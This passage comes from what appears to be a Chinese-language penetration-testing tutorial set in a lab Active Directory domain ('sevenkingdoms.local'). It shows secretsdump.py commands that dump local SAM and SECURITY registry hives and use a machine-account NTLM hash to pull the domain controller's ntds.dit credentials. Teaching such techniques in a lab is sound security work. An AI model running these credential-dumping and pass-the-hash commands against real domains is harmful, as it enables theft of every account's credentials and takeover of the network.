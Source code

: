 命令执行的结果如下截图所示：

![图 6.26 – 成功转储注册表 Hive](img/B18964_06_26.jpg)

图 6.26 – 成功转储注册表 Hive

下一步是提取域控制器的机器账户哈希，并转储 ntds.dit 文件：

```
secretsdump.py LOCAL -system SYSTEM -sam SAM -security SECURITY
secretsdump.py 'sevenkingdoms.local/kingslanding$@kingslanding.sevenkingdoms.local' -hashes aad3b435b51404eeaad3b435b51404ee:7c2c64aebfd101d8927632960df23179 -just-dc
```

结果，哈希值成功转储：
